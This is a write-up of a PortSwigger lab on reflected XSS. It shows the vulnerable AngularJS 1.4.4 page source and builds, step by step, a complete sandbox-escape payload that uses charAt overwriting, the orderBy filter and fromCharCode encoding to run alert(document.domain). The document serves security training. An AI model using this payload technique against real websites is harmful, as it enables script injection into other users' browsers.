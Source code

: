 # Reflected XSS with AngularJS sandbox escape without strings | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings), you'll learn: Reflected XSS with AngularJS sandbox escape without strings! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072208.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072240.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072254.png)

As you can, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-4-4.js"></script>
[...]
<section class=blog-header>
    <script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
        $scope.query = {};
        var key = 'search';
        $scope.query[key] = 'test';
        $scope.value = $parse(key)($scope.query);
    });</script>
    <h1 ng-controller=vulnCtrl>1 search results for {{value}}</h1>
    <hr>
</section>
```

As you can see, the search functionality is using **AngularJS 1.4.4**. Also, our input is **being rendered as a template: `{{value}}`.**

**Let's try to use an AngularJS sandbox bypass in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073512.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073533.png)

However, it doesn't work.

**In the lab's background, it said:**

> This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

**To solve that, we can use `toString()` to create a string without using quotes:**
```js
1&toString()
```

This will **get the `String` prototype.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073709.png)

**Then, we can use the most well-known escape uses the modified `charAt()` function globally within an expression:**
```js
1&toString().constructor.prototype.charAt=[].join;
```

This will **overwrite the `charAt` function for every string**, thus bypassing AngularJS sandbox.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073907.png)

**After that, we can use the `orderBy` filter to execute our JavaScript payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:
```

In here, we're sending the array `[1]` to the `orderBy` filter on the right. The colon signifies an argument to send to the filter.

**Argument:**
```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

Again, use `toString()` to get the `String` prototype. Then, we use the `fromCharCode` method generate our payload by converting character codes into the string `x=alert(document.domain)`. Because the `charAt` function has been overwritten, AngularJS will allow this code where normally it would not.

**Final payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101075510.png)

Nice!

# What we've learned:

1. Reflected XSS with AngularJS sandbox escape without strings